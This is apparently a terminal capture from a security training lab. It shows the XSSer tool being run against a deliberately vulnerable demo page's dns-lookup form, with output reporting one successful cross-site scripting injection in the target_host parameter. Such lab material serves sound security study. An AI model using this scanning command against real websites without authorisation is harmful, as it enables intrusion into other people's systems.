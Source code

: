 ```
root@INE:~# xsser -u 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'
===========================================================================

XSSer v1.8[4]: "The HiV€!" - (https://xsser.03c8.net) - 2010/2021 -> by psy

===========================================================================
Testing [XSS from URL]...
===========================================================================
===========================================================================
[*] Test: [ 1/1 ] <-> 2022-06-30 08:20:13.313820
===========================================================================

[+] Target: 

 [ http://demo.ine.local/index.php?page=dns-lookup.php ]

---------------------------------------------

[!] Hashing: 

 [ 7ca47cdaf2dee46c908fd67911f9aef0 ] : [ target_host ]

---------------------------------------------

[*] Trying: 

http://demo.ine.local/index.php?page=dns-lookup.php (POST: target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS)

---------------------------------------------

[+] Vulnerable(s): 

 [IE7.0|IE6.0|NS8.1-IE] [NS8.1-G|FF2.0] [O9.02]

---------------------------------------------

=============================================
[*] Injection(s) Results:
=============================================

 [FOUND !!!] -> [ 7ca47cdaf2dee46c908fd67911f9aef0 ] : [ target_host ]

===========================================================================
[*] Final Results:
===========================================================================

- Injections: 1
- Failed: 0
- Successful: 1
- Accur: 100.0 %

===========================================================================
[*] List of XSS injections:
===========================================================================

-> CONGRATULATIONS: You have found: [ 1 ] possible XSS vector! ;-)

---------------------

[+] Target: http://demo.ine.local/index.php?page=dns-lookup.php | target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS
```